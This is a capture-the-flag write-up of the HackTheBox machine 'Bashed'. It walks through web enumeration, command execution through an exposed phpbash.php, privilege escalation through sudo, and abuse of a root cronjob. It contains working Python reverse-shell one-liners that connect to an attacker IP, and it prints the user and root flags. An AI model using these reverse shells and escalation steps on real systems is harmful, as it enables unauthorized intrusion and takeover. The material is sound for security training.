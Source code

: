 ```yaml
---
title: HackTheBox - Bashed
categories: [HackTheBox, HTB-Linux]
date: 2022-08-21
tags: [linux-priv-esc/cronjob ]
img_path: /Writeups/HackTheBox/Linux/Bashed/images/
image:
  src: Pasted%20image%2020220820050244.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Overview 
This machine begins w/ a web directory enumeration, finding a directory `/dev` directory containing a file `phpbash.php` that has code execution functionality, allowing us to obtain a low-privilege/`www-data` shell.

User `www-data` has a sudoers entry that allows `www-data` to run any command as `scriptmanager`, allowing us to privilege escalate to `scriptmanager`

Further enumeration of the system is done w/ `linpeas.sh`, discovering a directory `/scripts` that contains a python script that we have `RWX` access to. Also, within last 5 minutes a file `/scripts/test.txt` has been modified, suggesting that there is could be a cronjob running, `pspy` is used to confirm that a cronjob is running that executes all python script in `/scripts` directory every minute as root, and by creating a reverse shell python script in `/scripts` directory, it allowed us to privilege escalate to `root`.

---

| Column       | Details |
| ------------ | ------- |
| Box Name     | Bashed  |
| IP           | 10.10.10.68        |
| Points       | -       |
| Difficulty   | Easy    |
| Creator      |  [Arrexel](https://www.hackthebox.com/home/users/profile/2904)       |
| Release Date |   09-Sep-2022      |


# Recon

## TCP/80 (HTTP)
### FFUF
```
dev                     [Status: 301, Size: 306, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 308, Words: 20, Lines: 10]
images                  [Status: 301, Size: 309, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 7743, Words: 2956, Lines: 162]
js                      [Status: 301, Size: 305, Words: 20, Lines: 10]
php                     [Status: 301, Size: 306, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12]
uploads                 [Status: 301, Size: 310, Words: 20, Lines: 10]
:: Progress: [4615/4615] :: Job [1/1] :: 1102 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```
- `/dev`


# Initial Foothold

## TCP/80 (HTTP) - Remote Code Execution

1. Proceed to `/dev`, `phpbash.php` found
2. `phpbash.php` allows us to execute commands
	![](Pasted%20image%2020220821004357.png)
3. Invoke a reverse shell
	```
	python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	```
4. `www-data`/low-privilege shell obtained
	![](Pasted%20image%2020220821004455.png)
5. User Flag
	```
	61ecdd09b54362a6470b4fc3ccee53ce
	```
	![](Pasted%20image%2020220821004539.png)

# Privilege Escalation

## Script Manager - Via Sudo
1. Check sudo access for `www-data`
	```
	www-data@bashed:/var/www/html$ sudo -l
	Matching Defaults entries for www-data on bashed:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User www-data may run the following commands on bashed:
	    (scriptmanager : scriptmanager) NOPASSWD: ALL
	
	```
	- Able to run any command as `scriptmanager`
2. Obtain `scriptmanager` shell
	```
	sudo -u scriptmanager /bin/bash
	```
![](Pasted%20image%2020220821004942.png)


## Root - Via Cronjob
1. Ran linpeas, found something interesting
	![](Pasted%20image%2020220821010328.png)
	- `/scripts` - we have `write` access
	- `/scripts/test.txt` - modified within last 5minutes
		- Cronjob?
	- `/scripts/test.py` - python script that is writable
2. Sniff processes w/ `pspy`
	![](Pasted%20image%2020220821010538.png)
	- `UID 0` - `root`
	- `/bin/sh -c cd /scripts; for f in *.py; do python "$f"; done ` - is executed every minute as `root`
	- all python scripts in `/scripts` are executed every minute
3. Create python reverse shell script
	```
	scriptmanager@bashed:/scripts$ nano /scripts/exploit.py
	import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
	```
4. Start listener and wait for cronjob to execute to obtain `root` shell
	![](Pasted%20image%2020220821010927.png)
5. Root Flag
	```
	ea8a2ef2a3c75833cd8345e0c866a980
	```
	![](Pasted%20image%2020220821011004.png)

6. View cronjob executed by `root`

	```
	# crontab -l
	* * * * * cd /scripts; for f in *.py; do python "$f"; done
	```
